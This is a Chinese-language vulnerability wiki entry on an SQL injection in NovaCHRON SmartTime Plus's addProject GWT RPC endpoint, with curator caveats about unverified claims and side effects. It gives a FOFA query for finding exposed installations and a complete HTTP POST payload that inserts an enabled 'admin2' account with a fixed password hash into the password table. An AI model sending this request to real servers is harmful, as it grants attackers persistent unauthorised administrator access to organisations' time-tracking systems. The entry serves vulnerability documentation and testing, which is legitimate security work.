

# NovaCHRON SmartTime Plus addProject SQL注入创建管理账户

## 条目说明

- 对象与具体问题：NovaCHRON SmartTime Plus；addProject SQL注入创建管理账户
- 版本、配置及部署条件：文称8.x至8.6；固定GWT RPC策略
- 认证与权限前提：请求无凭据；实际鉴权未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 载荷直接向password表插入启用用户和固定密码哈希，属于持久账号修改，须标副作用
- 缺文字响应与补丁来源；不能把GWT固定哈希视作所有版本通用
- 同端点getCookieNames另一个方法/漏洞不得仅按产品合并

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

NovaCHRON Zeitsysteme GmbH & Co. KG 的 Smart Time Plus v8.x 至 v8.6 版本被发现存在一个 SQL 注入漏洞。该漏洞通过 smarttimeplus/MySQLConnection 端点的 addProject方法触发，攻击者可以利用该漏洞执行任意 SQL 查询，可能导致敏感数据泄露或数据库被完全控制。

## 影响版本

Smart Time Plus v8.x 至 v8.6 版本

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：title="smart time plus" && body="smart"

POC/EXP：**新增用户**

```http
POST /smarttimeplus/MySQLConnection HTTP/1.1
Content-Type: text/x-gwt-rpc; charset=UTF-8
Host: 127.0.0.1
X-GWT-Permutation: 6071C2350BA962C766FB6DCA4023B0F8
 
7|0|12|http://127.0.0.1/smarttimeplus/|99F97D9159E5E5154B6415791EF65C43|com.novachron.smarttimeplus.client.DBConn|addProject|java.lang.String/2004016611|java.lang.String/2004016611|java.lang.String/2004016611|java.lang.String/2004016611|x|0|x|password (rec_num, `user`, password, sgroup, persid, lang, enabled, access, emd, eod, `sdescribe`, `language`) VALUES (999, 'admin2', '*721AE3ED7D5723537BA36062D6AD7A43831900A1', 0, 1, 6, 'T', '0', '0', '0', ?, ?); -- |1|2|3|4|4|5|6|7|8|9|10|11|12|
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
